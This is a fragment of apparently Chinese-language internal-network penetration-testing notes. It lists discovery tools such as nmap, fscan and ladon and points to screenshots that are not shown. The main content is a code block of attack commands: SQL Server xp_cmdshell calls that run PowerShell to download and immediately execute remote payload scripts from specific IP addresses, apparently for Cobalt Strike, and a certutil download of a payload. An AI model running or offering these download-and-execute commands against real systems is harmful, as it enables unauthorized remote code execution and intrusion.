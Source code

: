 3. nbtscan

4. fscan

   

Windows	

​		主机上线

​		nmap扫描

​		netdiscover

​		ladon

​		fsan

下载文件方式

![image-20210831144646586](内网渗透/image-20210831144646586-16303924075281.png)



![image-20210831144823768](内网渗透/image-20210831144823768.png)

![image-20210831145105405](内网渗透/image-20210831145105405.png)

```sh
-- exec xp_cmdshell "powershell.exe iex (New-Object Net.Webclient).DownloadString('http://173.82.219.68:8000/mot/payload.ps1');"

-- exec xp_cmdshell "powershell.exe iex (New-Object Net.Webclient).DownloadString('http://173.82.219.68:8000/mot/payloads.ps1');"

本地开启服务
---------------------------------------------
cs80服务的文件
exec xp_cmdshell "powershell.exe iex (New-Object Net.Webclient).DownloadString('http://120.55.58.254:80/download/file.ext');"
#下载且执行


certutil.exe -urlcache -split -f http://192.168.21.29:9999/payload.ps1 c:\www\payload.ps1
```
